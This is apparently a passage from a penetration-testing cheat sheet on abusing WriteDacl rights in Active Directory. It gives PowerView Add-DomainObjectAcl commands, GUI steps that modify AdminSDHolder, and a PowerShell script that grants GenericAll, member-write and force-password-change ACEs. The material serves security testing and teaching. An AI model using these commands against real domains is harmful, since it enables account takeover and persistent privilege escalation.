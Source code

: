 ###### User / group - WriteDacl

`PowerView`'s `Add-DomainObjectAcl` and the `ActiveDirectory` module's
`Get-Acl` / `Set-Acl` PowerShell cmdlet can be used to modify the specified
object `ACL`.  

`Add-DomainObjectAcl` can be used to add the following rights: `GenericAll` and
`ExtendedRight`'s `ForceChangePassword`. The `WriteMembers` option is
documented as `WriteProperty` to the `Member` attribute but is non functional.

Additionally, the `Active Directory Users and Computers` snap-in can be used
to modify `ACL` using a graphical interface.

```
# Procedure to the modify an object's ACL using ADUC.
mmc.exe -> File -> Add/Remove Snap-in... (Ctrl + M) -> Active Directory Users and Computers
-> <DOMAIN> -> System -> right click AdminSDHolder -> Properties -> Security -> Advanced -> Add
-> Select a principal
-> Type: Allow
-> Permissions: FullControl / Write all properties / Modify permissions / Modify owner / ...

# Automated modification using PowerView's Add-DomainObjectAcl to grant the GenericAll and ExtendedRight's ForceChangePassword rights.
# TargetIdentity: security object that will be modified
# PrincipalIdentity: security object that will be given the right over the targeted object
Add-DomainObjectAcl -Verbose -TargetIdentity <SamAccountName | DistinguishedName | SID | GUID> -PrincipalIdentity <SamAccountName | DistinguishedName | SID | GUID> -Rights <All | ResetPassword | WriteMembers>
Add-DomainObjectAcl -Verbose -Server <DC_HOSTNAME | DC_IP> -Credential <PSCredentials> -TargetIdentity <SamAccountName | DistinguishedName | SID | GUID> -PrincipalIdentity <SamAccountName | DistinguishedName | SID | GUID> -Rights <All | ResetPassword | WriteMembers>

# Manual modification using PowerShell ActiveDirectory module, that can be used to set specific ACE (GenericAll, ExtendedRight's ForceChangePassword, and WriteProperty to the Member attribute below).
$Object = "AD:\<DistinguishedName>"
$User = '<USERNAME>'
$UserSID = [System.Security.Principal.SecurityIdentifier] $(Get-ADUser $User).SID
$ObjectACL = Get-ACL -Path $Object
# Adds the ACE GenericAll.
$ACE_FullControl = New-Object System.DirectoryServices.ActiveDirectoryAccessRule(
    $UserSID,
    [System.DirectoryServices.ActiveDirectoryRights]::GenericAll,
    [System.Security.AccessControl.AccessControlType]::Allow,
    [DirectoryServices.ActiveDirectorySecurityInheritance]::None
)
$ObjectACL.AddAccessRule($ACE_FullControl)
# Adds the ACE WriteProperty to the Member attribute.
$ACE_WriteMember = New-Object System.DirectoryServices.ActiveDirectoryAccessRule(
    $UserSID,
    [System.DirectoryServices.ActiveDirectoryRights]::WriteProperty,
    [System.Security.AccessControl.AccessControlType]::Allow,
    "bf9679c0-0de6-11d0-a285-00aa003049e2",
    [DirectoryServices.ActiveDirectorySecurityInheritance]::None
)
$ObjectACL.AddAccessRule($ACE_WriteMember)
# Adds the ACE ExtendedRight's User-Force-Change-Password.
$ACE_ResetPassword = New-Object System.DirectoryServices.ActiveDirectoryAccessRule(
    $UserSID,
    [System.DirectoryServices.ActiveDirectoryRights]::ExtendedRight,
    [System.Security.AccessControl.AccessControlType]::Allow,
    "00299570-246d-11d0-a768-00aa006e0529",
    [DirectoryServices.ActiveDirectorySecurityInheritance]::None
)
$ObjectACL.AddAccessRule($ACE_ResetPassword)
Set-Acl -Path $Object -AclObject $ObjectACL
```